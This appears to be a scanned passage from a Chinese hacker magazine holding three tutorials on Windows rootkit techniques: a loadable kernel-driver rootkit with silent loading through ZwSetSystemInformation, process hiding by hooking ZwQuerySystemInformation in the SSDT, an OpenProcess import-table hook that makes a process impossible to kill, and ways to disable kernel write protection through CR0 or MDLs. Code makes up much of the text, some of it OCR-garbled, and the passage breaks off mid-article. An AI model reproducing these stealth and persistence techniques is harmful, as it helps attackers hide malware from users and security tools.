

图 1

- 适合读者：编程爱好者
- 前置知识：VC

## Windows Rootkit 深度初访



文/图 likz

Rootkit 是一种可以对机器底层功能进行访问的程序，先进的 Rootkit 很难被监视。最初的 Rootkit 是有后门的木马文件，通常替换掉系统的 ps、netstat 等可执行文件。因为这种技术会改变目标文件的大小和代码，因此很容易被检测出来。内核级的 Rootkit 现在非常普遍。它们一般是可装载的模块或者是驱动程序，可以提供对机器硬件级别的访问。内核 Rootkit 能够隐藏文件和进程，可以作为目标系统上的后门程序，一旦这些代码被注入到受信任的系统中，就具有了跟设备驱动程序和系统程序同样的访问级别。在 Windows 和 Unix 操作系统上，这种访问级别是极其危险的，它意味着系统的所有部分都受到威胁，相应的可信数据不再可信，访问控制代码不再具有访问控制功能。

本文中的 Rootkit 是作为一个驱动程序加载在内核中的，这个简单的 Rootkit 在 Windows NT 4.0 和 Windows 2000/XP 下测试通过。因为我们的 Rootkit 是个驱动程序，所以必须创建 Windows 驱动程序开发环境，需要安装 Windows XP DDK。

在 Windows 中，驱动程序是工作在 Ring0 层的，如图 1 所示。基本的驱动程序必须有一个 DriverEntry 函数。需要强调的是，函数中的代码是在 Ring0 层执行的。我们可以开发一个“fire and forget”模式的驱动程序，只在 Ring0 层执行代码。我们还需要开发一个能够被装载和卸载的驱动程序，原因是当代码改变的时候，我们还需要继续测试它。如果是“fire and forget”模式的驱动程序，需要重新启动计算机才能再测试。我们把驱动程序在系统中注册，然后通过正常的系统方法控制驱动程序的装载卸载等。但问题是，这种驱动程序很容易被检测到，这当然是 Rootkit 所不希望的。

```c
#include "ntddk.h"

NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT theDriverObject,
    IN PUNICODE_STRING theRegistryPath
)
{
    return STATUS_SUCCESS;
}
```

图 1 驱动程序的基本结构

用户态的程序通过打开一个文件句柄使用驱动程序。驱动程序作为一个文件句柄，用户态程序可以向它发送数据。这些数据通过 IRPs 的形式发送出去，因此驱动程序需要注册回调函数来处理这些 IRPs。因为我们的驱动程序不需要和用户态程序互通信，无需理会这些请求。为了处理这些 IRPs，需要为这些回调函数填充功能函数指针。

```c
for (i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
{
    theDriverObject->MajorFunction[i] = OnStubDispatch;
}
```

回调函数很简单，代码如下，可以简单完成所有的 IRPs 请求。

```c
NTSTATUS
OnStubDispatch(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp
)
{
    Irp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return Irp->IoStatus.Status;
}
```

大部分 Rootkit 不需要自己去卸载，一旦 Rootkit……被安装到系统中，当然希望它能一直装载在目标机器中；但当我们需要经常修改和测试驱动程序的时候，卸载程序就必不可少了。为了使驱动程序可以被卸载，我们需要注册一个 `unload` 例程，为 `unload` 例程提供一个函数指针。

```c
theDriverObject->DriverUnload = OnUnload;
```

卸载函数也很简单，代码如下。

```c
VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("ROOTKIT: OnUnload called\n");
}
```

总结以上内容，一个简单的能够被装载和卸载的驱动程序完整代码如下。

```c
#include "ntddk.h"

NTSTATUS OnStubDispatch(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp
)
{
    Irp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return Irp->IoStatus.Status;
}

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("ROOTKIT: OnUnload called\n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING theRegistryPath)
{
    int i;
    DbgPrint("My Driver Loaded!");
    // Register a dispatch function.
    for (i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
        theDriverObject->MajorFunction[i] = OnStubDispatch;
    return STATUS_SUCCESS;
}
```

到现在为止，我们就可以开发一个简单的驱动程序了。下面的工作是如何将驱动程序加载到系统上。假设我们的驱动程序存储在 `C:\\_root_.sys`，驱动程序的安装流程如下。

- 1) 调用 `OpenSCManager()` 打开服务控制管理器  
- 2) 调用 `CreateService()` 创建一个服务，服务类型为内核驱动  
- 3) 调用 `OpenService()` 取得服务句柄  
- 4) 调用 `StartService()` 启动服务  
- 5) 调用 `ControlService()` 停止服务  
- 6) 调用 `DeleteService()` 删除服务  
- 7) 调用 `CloseServiceHandle()` 关闭服务句柄

```c
#include "stdafx.h"
#include <windows.h>
#include <process.h>

void usage(char *p){ ... }

int main(int argc,char* argv[])
{
    if(argc != 2){
        usage(argv[0]);
        exit(0);
    }

    // 如果装载驱动程序
    if(*argv[1]=='l'){
        SC_HANDLE sh=OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
        if(!sh){ printf("error OpenSCManager"); exit(1); }

        SC_HANDLE rh=CreateService(
            sh,
            "_root_",
            "_root_",
            SERVICE_ALL_ACCESS,
            SERVICE_KERNEL_DRIVER,
            SERVICE_DEMAND_START,
            SERVICE_ERROR_NORMAL,
            "C:\\_root_.sys",
            NULL,NULL,NULL,NULL,NULL);

        if(!rh){
            if(GetLastError()==ERROR_SERVICE_EXISTS){
                rh=OpenService(sh,"_root_",SERVICE_ALL_ACCESS);
                if(!rh){ printf("error OpenService"); CloseServiceHandle(sh); exit(1); }
            }else{
                printf("error CreateService");
                CloseServiceHandle(sh);
                exit(1);
            }
        }
        ...
    }
    else if(*argv[1]=='u'){
        ...
    }
}
```

```c
{
    SERVICE_STATUS ss;
    printf("Unloading Rootkit driver\n");
    SC_HANDLE sh = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if(!sh) {
        printf("error OpenSCManager!");
        exit(1);
    }

    SC_HANDLE rh = OpenService(
        sh,
        "_root_",
        SERVICE_ALL_ACCESS);

    if(!rh) {
        printf("error OpenService");
        CloseServiceHandle(sh);
        exit(1);
    }

    if(!ControlService(rh, SERVICE_CONTROL_STOP, &ss)) {
        puts("warning: could not stop service");
    }

    if(!DeleteService(rh)) {
        puts("warning: could not delete service");
    }

    CloseServiceHandle(rh);
    CloseServiceHandle(sh);
}
else
    usage(argv[0]);
return 0;
```

上面的代码使用参数“l”和“u”注册和反注册驱动程序，使用 `net start _root_` 启动驱动程序，使用 `net stop _root_` 停止驱动程序。

以上方式是以一种幼稚的方式安装驱动程序。如果我们的 Rootkit 使用这种方法安装在目标机器上，很容易被检测出来。使用微软未公布的原始 API `SetSystemInformation`，我们能很简单地装载驱动程序。但是如果使用这种方法，驱动程序一旦被加载，就不能正常卸载掉，除非重新启动计算机。另外，我们能够多次装载驱动程序，而正常情况下，驱动程序只能被装载一次。我们可以使用如下的代码装载驱动程序。

```c
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
#ifdef MIDL_PASS
    ...
#endif
} UNICODE_STRING, *PUNICODE_STRING;
```

```c
typedef long NTSTATUS;
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)

NTSTATUS (__stdcall *ZwSetSystemInformation)(
    IN DWORD SystemInformationClass,
    IN OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength
);

VOID (__stdcall *RtlInitUnicodeString)(
    IN OUT PUNICODE_STRING DestinationString,
    IN PCWSTR SourceString
);

typedef struct _SYSTEM_LOAD_AND_CALL_IMAGE {
    UNICODE_STRING ModuleName;
} SYSTEM_LOAD_AND_CALL_IMAGE, *PSYSTEM_LOAD_AND_CALL_IMAGE;

#define SystemLoadAndCallImage 38

void main(void)
{
    SYSTEM_LOAD_AND_CALL_IMAGE GregsImage;
    WCHAR daPath[] = L"\\??\\C:\\_root_.sys";

    if(!(RtlInitUnicodeString = (void*)
        GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlInitUnicodeString")))
        exit(1);

    if(!(ZwSetSystemInformation = (void*)
        GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwSetSystemInformation")))
        exit(1);

    RtlInitUnicodeString(&(GregsImage.ModuleName), daPath);

    if(NT_SUCCESS(
        ZwSetSystemInformation(
            SystemLoadAndCallImage,
            &GregsImage,
            sizeof(SYSTEM_LOAD_AND_CALL_IMAGE)
        ))) {
        ...
    }
}
```

```c
// SYSTEM_INFORMATION_CLASS 枚举的一个子集
SystemLoadAndCallImage
// 只加载格式的 NATIVE NT 格式的完整路径
&OrigImage
sizeof(SYSTEM_LOAD_AND_CALL_IMAGE)
...
printf("Rootkit Loaded\n");
...
printf("Rootkit not loaded\n");
```

通过上面的学习，我们现在已经能够写一个简单的可被装载和卸载的驱动程序了。下一步我们学习如何进行文件、目录、进程的隐藏。限于篇幅，我只介绍如何隐藏特定进程。

挂接函数调用很普遍，因为它很容易实现。在机器语言中，这些调用被转换成一些 `call` 和 `jump` 指令，它们通过堆栈或者寄存器传递参数，这些指令通常需要一个内存中的地址，这些地址是子程序的入口地址。子程序返回，原来的代码继续执行。挂接函数调用通过修改 `call` 和 `jump` 指令原来的跳转地址，更改为新的跳转地址。挂接函数调用的方法可以应用在很多方面：程序内部函数、DLL 中的函数、甚至是操作系统提供的系统调用。挂接的系统函数能够模拟原来函数的进程；被挂接的函数返回当前运行的进程链，挂接的函数返回隐藏特定进程的进程链。用户态应用程序通过系统调用获取当前进程列表，我们可以通过挂接 `ZwQuerySystemInformation` 控制用户态程序获取的进程列表。如图2所示。

```c
NTSTATUS NewZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
)
{
    rc = ((ZWQUERYSYSTEMINFORMATION)(OldZwQuerySystemInformation))(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);
    return(rc);
}
```

> 图2 挂接函数调用基本结构

我们先保存 `ZwQuerySystemInformation` 原来的地址，然后使用我们自己的函数 `NewZwQuerySystemInformation` 替换掉原来的地址。当我们修改这个地址的时候，首先要临时关中断防止和其他线程冲突，修改完毕后再重新打开中断。我们自己的函数 `NewZwQuerySystemInformation` 仅仅调用原来的函数 `ZwQuerySystemInformation`，然后返回修改后的进程链表。

驱动程序装载了原来函数的指针，这些指针被全局保存起来，x86 芯片通过汇编 `cli/sti` 指令禁止/允许中断。在禁止中断期间，替换服务分派表中原来函数的地址，然后再允许中断。驱动程序被卸载时，需要恢复服务分派表中原来函数的地址。

关于 `NewZwQuerySystemInformation` 的实现，即通过修改 `ZwQuerySystemInformation` 返回的进程记录数组，返回隐藏特定进程的进程记录数组。方法我就不再啰嗦，具体方法除了参考其他资料，我记得《黑客防线》往期杂志上也能找到，不同的是那篇文章通过读写物理内存实现对进程记录数组的修改。

我在这里需要补充一下如何通过修改系统服务分配表（SSDT）实现内核原始 API 函数的挂接。SSDT 可以基于系统调用编号进行索引，以便定位函数的内存地址。`KeServiceDescriptorTable` 是由内核导出的表，该表可以使用如下的结构体来描述。

```c
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} SSDTEntry;
```

`ServiceTableBase` 为系统服务分配表的基址。`NumberOfServices` 为特定调用函数的 ID 编码，该 `ID*4` 为该函数地址在 `ServiceTableBase` 中的偏移地址。内核中的所有 `Zw*` 函数都以操作码 `mov eax, ULONG` 起始，因此若某 `Zw*` 函数地址为 `_func`，则 `*((PULONG)((PUCHAR)_func+1))` 即为该函数的索引 ID。故可使用如下宏定义很方便地挂接 SSDT。

```c
#define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)

#define HOOK_SYSCALL(_Function,_Hook,_Orig) \
    _Orig = (PVOID) InterlockedExchange((PLONG) \
    &MappedSystemCallTable[SYSCALL_INDEX(_Function)], \
    (LONG)_Hook);

#define UNHOOK_SYSCALL(_Function,_Hook,_Orig) \
    InterlockedExchange((PLONG)&MappedSystemCallTable \
    [SYSCALL_INDEX(_Function)], (LONG)_Orig)
```

通过以上内容，相信大家已经学会了如何开发一个可以被装载和卸载的驱动程序，以及如何挂接原始 API 函数。有了这些基础，相信就不难开发出自己的一款内核级 Rootkit 了。

适合读者：编程爱好者  
前置知识：VC

#### 利用 Hook API 实现进程守护



文／图 Zorro [CUST&AD]

关于进程的隐藏有很多方式可以实现，黑防以前的杂志也讲过不少例子。我就是不想把进程隐藏，呵呵。那么有什么方法可以实现进程守护呢？前一阵子我研究了一个 AV 终结者的变种，进程守护的方式是通过两个进程相互关联实现的。这种方式虽然手工无法干掉，可是写个专杀采用多线程就能干掉。不完美啊，两个进程总让人感到别扭。经过研究，我通过 HOOK API 技术实现了进程守护。

##### 原理简单分析

Hook API 是个好东西，虽然微软不提倡 Hook API，但应用却非常广泛，关于这方面的资料也很多。像金山词霸的屏幕取词翻译功能就是用这种技术实现的，它主要挂钩了 `TextOut` 函数，这样就能拦截到该函数的参数，也就是屏幕上的文字并进行翻译工作了。关于进程守护，如果一个进程试图结束另一个进程，不管用什么方法它都要先获取该进程的 HANDLE，只要我们 HOOK 住了 `OpenProcess` 这个 API，指向我们自定义的 `MY_OpenProcess` 函数，基本就能实现进程守护了。

有两种方法能够实现 HOOK API，一种是“改引入表式”，另一种是“陷阱式”。我就使用第一种方法来实现，这种方法易于实现，但要求你熟悉 PE 文件结构。主要是定位到 `Kernel32.dll` 模块的 `OpenProcess` 函数地址，并用 `WriteProcessMemory` 函数改写函数地址。

### DLL模块主要代码

```pascal
var
  func: PImportCode;
begin
  Result := Code;
  if Code = nil then exit;
  try
    func := Code;
    if (func.JumpInstruction = $25FF) then begin
      Result := func.AddressOfPointerToFunction^;
    end;
  except
    Result := nil;
  end;
end;

// 改引入表模块
Function WriteFunction(OldFunc, NewFunc: Pointer): Integer;
var
  BeenDone: TList;

Function WriteAddrInModule(hModule: THandle; OldFunc, NewFunc: Pointer): Integer;
var
  Dos: PImageDosHeader;
  NT: PImageNTHeaders;
  ImportDesc: PImage_Import_Entry;
  RVA: DWORD;
  Func: ^Pointer;
  DLL: String;
  f: Pointer;
  written: DWORD;
begin
  Result := 0;
  Dos := Pointer(hModule);
  if BeenDone.IndexOf(Dos) >= 0 then exit;
  BeenDone.Add(Dos);
  OldFunc := TrueFunctionAddress(OldFunc);
  // ...
```

```pascal
unit HookAPI;

interface

// 获取函数真实地址
function TrueFunctionAddress(Code: Pointer): Pointer;
```

```pascal
/IMAGE_DOS_SIGNATURE='MZ'
（定位至 NT Header）
NT := Pointer(Integer(Dos) + dos_lfanew);
（定位至引入函数表）
RVA := NTS.OptionalHeader.DataDirectory[
  IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
if RVA=0 then exit;
ImportDesc := Pointer(Integer(Dos)+RVA);
...
Function My_OpenProcess(dwDesiredAccess:DWORD;
  bInheritHandle:Boolean; dwProcessId:DWORD):THandle; stdcall;
var
  hWnd:THandle;
  ProcessId:DWORD;
begin
  hWnd := FindWindow(nil,'HOOK API');
  GetWindowThreadProcessId(hWnd, ProcessId);
  if (dwProcessId <> ProcessId) then
    Result := OpenProcess(dwDesiredAccess, bInheritHandle, dwProcessId);
end;
```

```pascal
//------------------------------
Function HookFunction(nCode:Integer; WParam:WPARAM;
  LParam:LPARAM):LRESULT; stdcall; export;
var
  OldFunction:Pointer;
begin
  OldFunction := GetProcAddress(GetModuleHandle('Kernel32.DLL'),'OpenProcess');
  WriteFunction(OldFunction,@My_OpenProcess);
  Result := CallNextHookEx(h_hook, nCode, wParam, lParam);
end;
```

需要注意的是，自定义的替换函数参数个数和类型以及返回值的类型必须与原 API 函数一致，否则会调用出错，可能会有意外的收获哦。测试时经常出现调用出错直接导致死机甚至蓝屏。另外，如果检查到进程不是我们的进程 MainEXE.exe，需要调用原函数打开，否则所有进程就都结束不了了。

###### 主程序代码

这里我把 DLL 安装到了任务管理器进程中，并没有将 DLL 安装到系统全局。大家也可以自己选择插入的进程，添加一个 Timer 控件监视任务管理器。

图1

即安装钩子程序执行后的效果如图1所示。尝试结束进程时无法结束，提示句柄无效，说明没有成功调用 OpenProcess。主程序关键代码如下。

```pascal
procedure TForm1.Timer1Timer(Sender: TObject);
var
  hHookDll, htaskmar, ThreadID:THandle;
  pHookFunction:Pointer;
begin
  htaskmar := FindWindow(nil,'Windows 任务管理器');
  if htaskmar<>0 then
  begin
    ThreadID := GetWindowThreadProcessId(htaskmar,nil);
    if ThreadID<>0 then
    begin
      ...
    end;
  end;
end;

hHookDll := LoadLibrary('Hook.dll'); // 动态加载DLL
if hHookDll<>0 then
begin
  pHookFunction := GetProcAddress(hHookDll,'HookFunction'); // 获取DLL导出函数地址
  if pHookFunction<>nil then
  begin
    // 安装钩子
    h_Hook := SetWindowsHookEx(3,pHookFunction,hHookDll,ThreadID);
  end;
end;

end;
else
begin
  if h_Hook<>0 then
    UnhookWindowsHookEx(h_Hook); // 卸载钩子
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  Timer1Enabled := True;
end;
```

- 适合读者：编程爱好者
- 前置知识：VC

## 注解挂钩SSDT

文／图 石油大学胜利学院 小麒麟

最近大家对于 Ring0 级的研究正如当年的注入一样越来越火，认识的朋友似乎张口闭口都是内核，看来这有可能是以后的趋势了。在下不才在此献上一篇文章，算是抛砖引玉，希望以后有更好的文章发表出来。

大家都用过冰刃吧？应该对 SSDT 记忆犹新，但什么是 SSDT，它是做什么用的呢？SSDT 的全称是 System Services Descriptor Table，系统服务描述符表，其作用就是把 Ring3 的 Win32 API 和 Ring0 的内核 API 联系起来。它通过对系统调用进行索引，然后定位函数的内存地址。当应用程序采用子系统调用系统服务时，它会调用到 ntdll.dll 中：后者向 EAX 中加载所请求的系统服务标识符编号或系统函数编号，然后向 EDX 中加载用户模式中函数的参数地址，系统服务调度程序对参数数目进行验证，将它们从用户堆栈复制入内核堆栈，然后调用在 SSDT 中储存于 EAX 中的服务标识符编号的索引地址处的函数。

举个例子，当我们要调用 OpenProcess 函数时，函数进入内核的过程如图1所示。当程序的处理流程进入 Ring0 之后，系统会根据服务标识符编号（eax）……

在 SSDT 这个系统服务描述符表中查找对应的表项，这个找到的表项就是系统服务函数 NtOpenProcess 的真正地址。之后，系统会根据这个地址调用相应的系统服务函数，并把结果返回给 ntdll.dll 中的 NtOpenProcess。

图2中的“SSDT”所示即为系统服务描述符表的各个表项，右侧的“ntoskrnl.exe”则为……

Windows 系统内核服务进程（ntoskrnl 即为 NT OS Kernel 的缩写），它提供了相对应的各个系统服务函数。ntoskrnl.exe 这个文件位于 Windows 的 system32 目录下。

这里说明一点，SSDT 中的各个表项不会全部指向 ntoskrnl.exe 中的服务函数，因为你机器上的杀毒监控或其它驱动程序可能会改写 SSDT 中的某些表项，以到达它们的目的。

这里我们还要明确一个概念，就是 KeServiceDescriptorTable，它是内核导出的表，该表拥有一个指针，指向 SSDT 中包含由 ntoskrnl.exe 实现核心系统服务的相应部分。我们可以把它理解成 SSDT 在内核中的数据实体，SSDT 的数据结构定义如下：

```c
typedef struct _tagSSDT {
    PVOID pvSSDTBase;
    PVOID pvServiceCounterTable;
    ULONG ulNumberOfServices;
    PVOID pvParamTableBase;
} SSDT, *PSSDT;
```

有了以上知识后，我们就可以钩住 SSDT 来完成我们希望实现的功能了。这里以一种隐藏进程的方法进行说明。但我们还有一个问题需要解决：我们要修改 SSDT 表，首先这个表必须是可写的，但在 Windows XP 以后的系统中它都是只读的。我总结了三个办法来修改内存保护机制，这对以后的编程是很有用处的。

- 1. 更改注册表（要重启）

```text
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\
    Memory Management\EnforceWriteProtection=0
```

与

```text
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\
    Memory Management\DisablePagingExecutive=1
```

其中第 2 种方法我没有试验成功，这里只是列出作为一种方法供大家参考。

- 2. 修改控制寄存器 CR0

将 wp 位设置为 2，代码如下。

```asm
_asm{
    push eax
    mov eax,CR0
    and eax,0FFFEFFFFh
    mov CR0,eax
    pop eax
}
```

如果要恢复，可使用以下代码。

```asm
_asm{
    push eax
    mov eax,CR0
    or eax,NOT 0FFFEFFFFh
    mov CR0,eax
    pop eax
}
```

这个方法希望大家以后在编程的时候尽量少用点，因为它常常会带来一些问题。

- 3. 利用内存描述符表，描述一块可写内存。

本人强烈推荐此种办法，有什么好处，你会在编程中体会到的。以下是 MDL 在 ntddk.h 的定义。

```c
typedef struct _MDL {
    struct _MDL *Next;
    CSHORT Size;
    CSHORT MdlFlags;
    struct _EPROCESS *Process;
    PVOID MappedSystemVa;
    PVOID StartVa;
    ULONG ByteCount;
    ULONG ByteOffset;
} MDL, *PMDL;

#define MDL_MAPPED_TO_SYSTEM_VA 0x0001
#define MDL_PAGES_LOCKED 0x0002
#define MDL_SOURCE_IS_NONPAGED_POOL 0x0004
#define MDL_ALLOCATED_FIXED_SIZE 0x0008
#define MDL_PARTIAL 0x0010
#define MDL_PARTIAL_HAS_BEEN_MAPPED 0x0020
#define MDL_IO_PAGE_READ 0x0040
#define MDL_WRITE_OPERATION 0x0080
#define MDL_PARENT_MAPPED_SYSTEM_VA 0x0100
#define MDL_FREE_EXTRA_PTES 0x0200
#define MDL_IO_SPACE 0x0800
#define MDL_NETWORK_HEADER 0x1000
#define MDL_MAPPING_CAN_FAIL 0x2000
#define MDL_ALLOCATED_MUST_SUCCEED 0x4000
```

MDL 包含了该内存区域的起始地址、拥有者进程、字节数量以及标志。

这里以修改 SSDT 为例，以下代码先声明一个结构，该结构用于转换由内核导出的 KeServiceDescriptorTable 变量的类型。调用 MmCreateMdl 时需要 KeServiceDescriptorTable 的基地址和它包含的项数，从中我们得到 MDL 所描述的内存区域与大小。然后从不分页内存中创建 MDL。我们将 MDL 标志与 MDL_MAPPED_TO_SYSTEM_VA 进行或操作，以便允许写入一块内存区域，然后就可以调用 MmMapLockedPage 来锁定内存中的 MDL 页了。

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;      // KeServiceDescriptorTable的基地址
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;       // 包含的项数
    ...
};

unsigned char *ParamTableBase;
}SSDT_Entry;
#pragma pack()
__declspec(dllimport) SSDT_Entry KeServiceDescriptorTable;
PMDL g_pmdlSystemCall;
PVOID *MappedSystemCallTable;
g_pmdlSystemCall = MmCreateMdl(NULL,
    KeServiceDescriptorTable.ServiceTableBase,
    KeServiceDescriptorTable.NumberOfServices*4);
if(!g_pmdlSystemCall)
    return STATUS_UNSUCCESSFUL;
MmBuildMdlForNonPagedPool(g_pmdlSystemCall);
g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode);
```

现在我们就可以试着隐藏进程了，Taskmgr.exe 是通过 ZwQuerySystemInformation 函数获取系统上的进程列表，如果要获得进程列表，那么 SystemInformationClass 要设置为 5。ZwQuerySystemInformation 函数结构如下。

```c
NTSTATUS NewZwQuerySystemInformation(
IN ULONG SystemInformationClass,
// 如果这个值是5，则代表系统中所有进程信息
IN PVOID SystemInformation,?
// 这就是最终列举出的信息，和上面的值有关
IN ULONG SystemInformationLength, // 后两个不重要
OUT PULONG ReturnLength)
```

在 Windows 2000 中，NtQuerySystemInformation 在 SSDT 里面的索引号是 0x97，所以只需要把 SSDT 中偏移 0x97*4 处的原来的一个 DWORD 类型的值读出来，保存在一个全局变量中，然后再把它重新赋值成一个新的 Hook 函数的地址，就完成了 Hook。

```c
OldFuncAddress = KeServiceDescriptorTable->ServiceCounterTableBase[0x97];
KeServiceDescriptorTable->ServiceCounterTableBase[0x97] = NewFuncAddress;
```

在其他系统中，这个号不一定一样，所以必须找一种通用的方法来得到这个索引号。在《Undocument NT》中介绍了一种办法可以解决这个通用问题，从而有效地避免了使用硬编码。在 ntoskrnl 导出的 ZwQuerySystemInformation 中包含有索引号的硬编码如下。

```asm
kd> u ZwQuerySystemInformation
804011aa b897000000 mov eax,0x97
804011af 8d542404 lea edx,[esp+0x4]
804011b3 cd2e int 2e
804011b5 c21000 ret 0x10
```

所以，我们只需要把 ZwQuerySystemInformation 入口处的第二个字节取出来就能得到相应的索引号了。有了以上的准备工作，我们可以钩住 SSDT 表了。为了方便，这里给出以下四个宏定义。

```c
// 获得SSDT基址宏
